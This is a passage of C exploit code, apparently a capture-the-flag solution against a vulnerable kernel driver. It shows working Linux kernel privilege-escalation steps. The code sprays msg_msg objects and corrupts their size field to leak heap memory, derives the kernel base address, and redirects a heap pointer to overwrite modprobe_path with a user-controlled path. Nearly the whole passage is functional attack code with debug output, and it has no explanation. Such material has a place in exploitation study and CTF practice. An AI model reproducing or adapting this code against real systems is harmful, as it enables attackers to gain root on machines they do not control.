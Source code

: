 ```exploit.c
  printf("[!] leaked heap: 0x%lx\n", leaked_heap);
  printf("[!] heapbase: 0x%lx\n", heap_base);


  /** overwrite next pointer, edit msg_msg's size, read heap sequentially, leak master_list. **/

  // heap is tampered, allocate fresh nights.
  #define SECOND_N 6
  uint randvals2[SECOND_N] = {0};
  for (int ix = 0; ix != SECOND_N; ++ix) {
    randvals2[ix] = night_add(buf, 0, 0x20);
  }

  // allocate simple msg_msg + userdata
  memset(clean_msg80.mtext, 'Y', 0x50);
  KMALLOC(qid, clean_msg80, 1);

  // overflow to overwrite night[1]->next to allocated msg_msg
  printf("[+] overwrite next target with 0x%lx\n", heap_base+ 0x700 + 0x10 - 0x60);
  *(ulong*)(buf + 0x10) = heap_base + 0x700 + 0x10 - 0x60;
  night_edit(buf, randvals2[3], 0x10, 0x20);

  // edit to overwrite msg_msg.m_ts with huge value
  ulong val[0x2];
  val[0] = 1;
  val[1] = 0x200; // m_ts
  night_edit((char*)val, 0x41414141, 0, 0x10);

  // allocate new night and read master_list
  night_add(buf, 0, 0);
  n_rcv = msgrcv(qid, &clean_msg80, 0x500, clean_msg80alpha.mtype, 0);
  printf("[+] received 0x%x size of message.\n", n_rcv);
  ulong master_list = *(ulong*)(clean_msg80.mtext + 0xb * 8);
  ulong edit_chunk = master_list - diff_master_list_edit;
  ulong __kmalloc = edit_chunk - edit_kmalloc_diff;
  ulong kbase = __kmalloc - 0x1caa50;
  ulong modprobe_path = kbase + diff_modprobe_path;
  printf("[!] master_list: 0x%lx\n", master_list);
  printf("[!] edit_chunk: 0x%lx\n", edit_chunk);
  printf("[!] __kmalloc: 0x%lx\n", __kmalloc);
  printf("[!] kbase: 0x%lx\n", kbase);
  printf("[!] modprobe_path: 0x%lx\n", modprobe_path);

  /** overwrite modprobe_path **/
  strcpy(clean_msg80.mtext, "/home/user/nirugiri\x00");

  // heap is collapsed, allocate fresh nights.
  #define THIRD_N 2
  uint randvals3[THIRD_N] = {0};
  for (int ix = 0; ix != THIRD_N; ++ix) {
    randvals3[ix] = night_add(buf, 0, 0x20);
  }

  // overwrite night's next ptr
  printf("[+] overwrite next target with 0x%lx\n", heap_base + 0x8c0 - 0x60);
  *(ulong*)(buf + 0x10) = heap_base + 0x8c0 - 0x60; // heap's next ptr is placed at +0x40 of chunk.
  night_edit(buf, randvals3[0], 0x10, 0x20);

  // edit to overwrite heap's next pointer
  val[0] = modprobe_path - 0xa0 + 0x80 - 0x10;
  val[1] = 0x0;
  night_edit((char*)val, 0x0, 0, 0x10);

```
